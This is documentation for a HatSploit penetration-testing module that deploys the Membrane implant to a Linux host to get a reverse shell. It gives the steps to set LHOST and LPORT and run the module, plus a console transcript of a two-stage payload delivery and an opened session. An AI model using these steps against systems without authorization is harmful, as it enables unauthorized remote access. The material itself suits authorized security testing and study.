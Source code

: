 # `exploit/linux/stager/membrane_reverse_tcp`

## Description

This module uses [Membrane Implant](https://github.com/enty8080/membrane) to send it to device and execute from `/private/var/tmp` to provide reverse shell.

## Verification Steps

1. Start HatSploit
2. Do `use exploit/linux/stager/membrane_reverse_tcp`
3. Do: `set LHOST` to your local host
4. Do: `set LPORT` to your local port
5. Do: `run`

## Options

| Option    | Default Value         | Required | Description        |
|-----------|-----------------------|----------|--------------------|
| `LHOST`   | `self.tcp.get_local_host()` | yes      | Local host.        |
| `LPORT`   | 8888                  | yes      | Local port.        |

**LHOST**

Variable that contains local host.

**LPORT**

Variable that contains local port.

## Scenarios

```
(hsf: exploit: linux/stager/membrane_reverse_tcp)> run
[*] Starting listener on port 8888...
[*] Binding to 192.168.2.108:8888...
[+] Listener started on port 8888!
[*] Connecting to 192.168.2.110...                
[*] Sending first stage...                        
[*] Executing first stage...                      
[*] Sending second stage...                       
[*] Executing second stage...                     
[*] Establishing connection...                    
[+] Session 0 opened!
(hsf: post: linux/membrane/trolling/say)> sessions
 
Sessions
========
 
    ID    Host             Username    Hostname     
    --    ----             --------    --------     
    0     192.168.2.110    enty8080    Ivans-Mint

(hsf: post: linux/membrane/trolling/say)>
```
